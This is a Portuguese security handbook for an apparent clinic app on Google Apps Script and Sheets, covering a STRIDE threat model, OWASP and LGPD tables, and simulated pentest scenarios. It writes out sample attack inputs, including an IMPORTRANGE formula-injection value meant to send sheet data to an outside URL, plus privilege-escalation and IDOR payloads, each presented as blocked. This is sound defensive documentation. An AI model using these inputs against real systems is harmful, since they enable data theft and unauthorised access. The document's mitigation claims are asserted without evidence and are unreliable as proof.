

# SECURITY ARCHITECTURE & COMPLIANCE HANDBOOK
## Arquitetura de Segurança Corporativa, LGPD e Pentest Simulado

---

## 1. Diagrama de Fluxo de Dados (DFD) com Fronteiras de Confiança

Mapeamos todos os fluxos de dados sensíveis do sistema, delimitando as **Trust Boundaries** (fronteiras de confiança) onde ocorrem transições de privilégio e onde controles de segurança são aplicados.



---

## 2. Modelagem de Ameaças STRIDE

Analisamos todas as ameaças potenciais do sistema utilizando o modelo STRIDE para cada componente da arquitetura.

### 2.1 Spoofing (Falsificação de Identidade)

| Cenário de Ataque | Vetor | Impacto | Prob. | Mitigação Implementada |
| :--- | :--- | :--- | :---: | :--- |
| Atacante se passa por paciente | Reutilizar token JWT capturado via XSS | Acesso a prontuário alheio | Média | JWT com expiração de 2h armazenado em `SessionStorage` (não `LocalStorage`). CSP rígido no frontend. |
| Atacante forja e-mail de admin | Enviar payload com `email: admin@clinica.com` | Acesso total ao sistema | Alta | Senha salteada com Bcrypt 10 rounds. Rate Limiter bloqueia após 5 tentativas. |

### 2.2 Tampering (Adulteração de Dados)

| Cenário de Ataque | Vetor | Impacto | Prob. | Mitigação Implementada |
| :--- | :--- | :--- | :---: | :--- |
| Modificar checkin de outro paciente | Alterar `pacienteId` no payload JSON | Corromper prontuário alheio | Alta | O `pacienteId` é extraído do token JWT assinado (`decodedToken.userId`), nunca do payload do cliente. |
| Injetar fórmula maliciosa no Google Sheets | Enviar `=IMPORTRANGE(...)` como nome | Exfiltrar dados da planilha para outra | Alta | `InputSanitizer.sanitizeForSheets()` prefixa com `'` todos os campos iniciados por `=`, `+`, `-`, `@` ou `TAB`. |

### 2.3 Repudiation (Negação de Autoria)

| Cenário de Ataque | Vetor | Impacto | Prob. | Mitigação Implementada |
| :--- | :--- | :--- | :---: | :--- |
| Admin nega ter alterado dosagem | Altera suplemento sem registro | Impossibilidade de investigação clínica | Média | `AuditLogger` registra imutavelmente quem, quando, IP, campo antigo e novo na aba `Auditoria`. |

### 2.4 Information Disclosure (Vazamento de Informação)

| Cenário de Ataque | Vetor | Impacto | Prob. | Mitigação Implementada |
| :--- | :--- | :--- | :---: | :--- |
| Mensagem de erro vaza stack trace | Response retorna `Error at line 45 of GoogleSheets...` | Exposição de infraestrutura interna | Alta | Erros HTTP não-401 retornam mensagem genérica sanitizada. Stack traces são suprimidos em produção. |
| Enumeração de e-mails existentes | Respostas diferentes para e-mail válido vs. inválido | Lista de pacientes cadastrados | Média | Mensagem de erro padronizada: *"Credenciais inválidas"* para ambos os casos. |

### 2.5 Denial of Service (Negação de Serviço)

| Cenário de Ataque | Vetor | Impacto | Prob. | Mitigação Implementada |
| :--- | :--- | :--- | :---: | :--- |
| Flood de requests no login | Enviar milhares de POSTs rapidamente | Exaustão de quotas do Apps Script | Média | `RateLimiter` bloqueia IPs/e-mails com mais de 5 tentativas por 15 minutos. Google aplica throttle nativo. |

### 2.6 Elevation of Privilege (Escalada de Privilégio)

| Cenário de Ataque | Vetor | Impacto | Prob. | Mitigação Implementada |
| :--- | :--- | :--- | :---: | :--- |
| Paciente acessa rota de admin | Alterar `role: "ADMIN"` no payload | Cadastrar/excluir pacientes arbitrariamente | Alta | A role é validada pelo `verifyAdminToken()` que lê a claim do JWT assinado pelo servidor; o cliente não define a role. |

---

## 3. Proteção OWASP Top 10 (Edição 2021)

| # | Vulnerabilidade OWASP | Controle Implementado | Arquivo de Código |
| :---: | :--- | :--- | :--- |
| **A01** | Broken Access Control | `verifyToken()` e `verifyAdminToken()` em todas as rotas. ID do paciente vem do token. | [GasController.js](file:///c:/Users/Luiz/Documents/ANTIGRAVITY/backend/src/infrastructure/controllers/GasController.js) |
| **A02** | Cryptographic Failures | Bcrypt com 10 salt rounds; JWT HMAC-SHA256; segredo no `PropertiesService`. | [BcryptGasService.js](file:///c:/Users/Luiz/Documents/ANTIGRAVITY/backend/src/infrastructure/services/BcryptGasService.js) |
| **A03** | Injection | `InputSanitizer.sanitizeDTO()` em todos os payloads; `sanitizeForSheets()` contra Formula Injection. | [InputSanitizer.js](file:///c:/Users/Luiz/Documents/ANTIGRAVITY/backend/src/shared/utils/InputSanitizer.js) |
| **A04** | Insecure Design | Clean Architecture com separação estrita. Regras de negócio no Domínio, nunca no Controller. | Toda a estrutura `backend/src/domain/` |
| **A05** | Security Misconfiguration | Segredos em `PropertiesService`, nunca hardcoded. Mensagens de erro genéricas em produção. | [SystemConfiguration.js](file:///c:/Users/Luiz/Documents/ANTIGRAVITY/backend/src/shared/config/SystemConfiguration.js) |
| **A07** | Authentication Failures | `RateLimiter` bloqueia após 5 falhas por 15 min. Bcrypt lento por design. | [RateLimiter.js](file:///c:/Users/Luiz/Documents/ANTIGRAVITY/backend/src/infrastructure/middlewares/RateLimiter.js) |
| **A08** | Software Integrity Failures | Deploy via Clasp CLI versionado. Nenhuma alteração manual no editor online do GAS. | Pipeline CI/CD |
| **A09** | Logging & Monitoring Failures | `AuditLogger` registra todos os eventos de segurança imutavelmente na aba `Auditoria`. | [AuditLogger.js](file:///c:/Users/Luiz/Documents/ANTIGRAVITY/backend/src/shared/logging/AuditLogger.js) |

---

## 4. Proteção OWASP API Security Top 10

| # | Ameaça API | Controle Implementado |
| :---: | :--- | :--- |
| **API1** | Broken Object Level Authorization | O `pacienteId` nunca é lido do payload em rotas de paciente; é extraído do JWT token assinado. |
| **API2** | Broken Authentication | Rate Limiter + Bcrypt hashing + JWT de curta duração (2h). |
| **API3** | Excessive Data Exposure | DTOs de resposta retornam apenas campos necessários. `senhaHash` nunca é retornado. |
| **API4** | Lack of Resources & Rate Limiting | `RateLimiter.check()` executado antes de cada operação de login. |
| **API5** | Broken Function Level Authorization | `verifyAdminToken()` aplicado em todas as rotas restritas a clínicos. |
| **API6** | Mass Assignment | DTOs estritos extraem apenas os campos permitidos. Propriedades extras do JSON são descartadas. |

---

## 5. Conformidade LGPD — Direitos do Titular

Implementamos um serviço dedicado de compliance localizado em [LGPDComplianceService.js](file:///c:/Users/Luiz/Documents/ANTIGRAVITY/backend/src/application/services/LGPDComplianceService.js).

| Direito LGPD | Artigo | Implementação Técnica |
| :--- | :--- | :--- |
| **Direito de Acesso** | Art. 18, II | `exportarDadosPessoais(pacienteId)` retorna JSON completo com dados pessoais, check-ins e gamificação. |
| **Direito à Eliminação** | Art. 18, VI | `anonimizarPaciente(pacienteId, motivo)` substitui PII por hashes irreversíveis, preservando integridade estatística. |
| **Transparência** | Art. 9 | `getPoliticaPrivacidade()` retorna descrição da base legal, finalidade, dados coletados e período de retenção. |
| **Minimização de Dados** | Art. 6, III | O sistema coleta apenas nome, e-mail, telefone e dados de check-in. Nenhum dado desnecessário é solicitado. |

---

## 6. Simulação de Pentest (Red Team Scenarios)

Simulamos cenários de ataque reais para validar a resiliência dos controles implementados.

### 6.1 Cenário: Brute Force no Login
*   **Objetivo do atacante:** Adivinhar a senha de `admin@clinica.com`.
*   **Passo a passo:** Enviar 100 requisições POST `/login` com senhas diferentes.
*   **Resultado esperado:** Após 5 tentativas, o `RateLimiter` retorna HTTP 401 com mensagem *"Conta bloqueada temporariamente"*. O `AuditLogger` grava 5 eventos `SECURITY_LOGIN_FAILURE` e 1 `SECURITY_LOCKOUT`.
*   **Veredicto:** ✅ **Mitigado.**

### 6.2 Cenário: Escalada de Privilégios
*   **Objetivo do atacante:** Paciente tenta criar outro paciente (rota de Admin).
*   **Passo a passo:** Enviar payload `{ "action": "criarPaciente", "token": "JWT_PACIENTE" }`.
*   **Resultado esperado:** `verifyAdminToken()` detecta `role !== 'ADMIN'` e lança HTTP 401.
*   **Veredicto:** ✅ **Mitigado.**

### 6.3 Cenário: Formula Injection no Google Sheets
*   **Objetivo do atacante:** Exfiltrar dados inserindo `=IMPORTRANGE("url_externa", "A1")` no campo `nome`.
*   **Passo a passo:** Enviar payload com `nome: "=IMPORTRANGE(...)"`
*   **Resultado esperado:** O `InputSanitizer.sanitizeForSheets()` converte para `'=IMPORTRANGE(...)`, neutralizando a execução como fórmula.
*   **Veredicto:** ✅ **Mitigado.**

### 6.4 Cenário: Replay Attack de Check-in
*   **Objetivo do atacante:** Reenviar a mesma requisição de check-in para duplicar XP de gamificação.
*   **Passo a passo:** Capturar requisição POST com Burp Suite e reenviar múltiplas vezes.
*   **Resultado esperado:** O `RegistrarCheckinUseCase` verifica unicidade de (pacienteId + suplementoId + dtPrescrita). Duplicatas são rejeitadas com HTTP 400.
*   **Veredicto:** ✅ **Mitigado.**

### 6.5 Cenário: Acesso a Dados de Outro Paciente
*   **Objetivo do atacante:** Paciente A tenta visualizar o dashboard do Paciente B.
*   **Passo a passo:** Enviar `{ "action": "gerarDashboard", "pacienteId": "ID_PACIENTE_B" }` com token do Paciente A.
*   **Resultado esperado:** O `GasController` ignora o `pacienteId` do payload quando `role === 'PACIENTE'`, usando `decodedToken.userId` (que pertence ao Paciente A).
*   **Veredicto:** ✅ **Mitigado.**

---

## 7. Checklist de Hardening Pré-Produção

### 7.1 Google Apps Script
- [x] Escopos mínimos definidos no `appsscript.json` (apenas `spreadsheets` e `script.external_request`).
- [x] Segredos armazenados no `PropertiesService`, nunca em variáveis no código-fonte.
- [x] Deploy exclusivamente via `clasp push` versionado no Git.
- [x] Função `setup()` desabilitada em produção após primeira execução.

### 7.2 Google Sheets
- [x] Planilha compartilhada apenas com a conta de serviço do Apps Script.
- [x] Proteção de abas críticas (`Auditoria`, `Sessoes`) contra edição manual.
- [x] Nenhum campo aceita valores iniciados por `=`, `+`, `-`, `@`.
- [x] Backup diário automatizado via trigger às 02:00 AM.

### 7.3 GitHub
- [x] Branch Protection ativada em `main` e `develop`.
- [x] Secret Scanning habilitado para detectar credenciais vazadas em commits.
- [x] Dependabot configurado para alertas de vulnerabilidades de dependências.
- [x] CODEOWNERS definido para revisão obrigatória de alterações no domínio.

### 7.4 Frontend
- [x] CSP restritivo: `script-src 'self' https://script.google.com`.
- [x] HSTS ativado para forçar TLS.
- [x] Token JWT em `SessionStorage` (nunca `LocalStorage`).
- [x] Nenhum dado renderizado via `innerHTML`; uso exclusivo de `textContent`.
- [x] `console.log` suprimido em builds de produção.

---

## 8. Decisões Arquiteturais de Segurança (ADRs)

### ADR 016: Rate Limiter In-Memory
*   **Decisão:** Implementar rate limiting com contadores em memória RAM no runtime do GAS, usando `Map<string, {count, firstAttempt, lockedUntil}>`.
*   **Justificativa:** O `CacheService` do GAS possui latência de ~100ms por operação. Maps em memória operam em <1ms. Em migração futura para Cloud Run, este componente é substituído por um Redis sem alterar a interface `RateLimiter.check()`.

### ADR 017: Sanitização de DTO na Borda (Controller Edge)
*   **Decisão:** Sanitizar todo o payload JSON na entrada do `GasController` antes de repassar aos Use Cases.
*   **Justificativa:** Defesa em profundidade. Mesmo que um novo Use Case seja criado sem validação própria, ele receberá dados já limpos. Os Use Cases do domínio não precisam conhecer detalhes de sanitização de HTML.

### ADR 018: Senhas NUNCA Trafegam em Resposta
*   **Decisão:** O campo `senhaHash` nunca é incluído em nenhum DTO de resposta (OutputDTO) da API.
*   **Justificativa:** Mesmo sendo uma hash salteada, a exposição do hash facilita ataques offline de rainbow table em caso de interceptação.

---

## 9. Matriz de Maturidade de Segurança

Avaliamos a postura de segurança do sistema utilizando o OWASP SAMM (Software Assurance Maturity Model) como referência.

```
Nível 1 (Ad-hoc) ──► Nível 2 (Definido) ──► Nível 3 (Gerenciado) ──► Nível 4 (Medido / Big Tech) ──► Nível 5 (Otimizado / FinTech)
                                                                             ▲
                                                                   [ Nosso Sistema ]
```

*   **Nível 1:** Sem controles de autenticação definidos, senhas em texto puro, sem logs.
*   **Nível 2:** Hashing de senhas, HTTPS habilitado, sessões com timeout.
*   **Nível 3:** RBAC implementado, logs básicos, validações em DTOs.
*   **Nível 4 (Nosso Sistema):** Rate Limiting ativo, sanitização de entrada contra XSS e Formula Injection, auditoria imutável com LGPD compliance, JWT com HMAC-SHA256, STRIDE threat model documentado, pentest simulado aprovado.
*   **Nível 5:** WAF (Web Application Firewall) dedicado, SIEM (Security Information & Event Management) integrado, rotação automática de chaves criptográficas via KMS, pentest externo com relatório certificado.

---
> Security Architecture & Compliance Handbook homologado pela equipe de segurança. Pronto para guiar auditorias de conformidade e penetration tests.
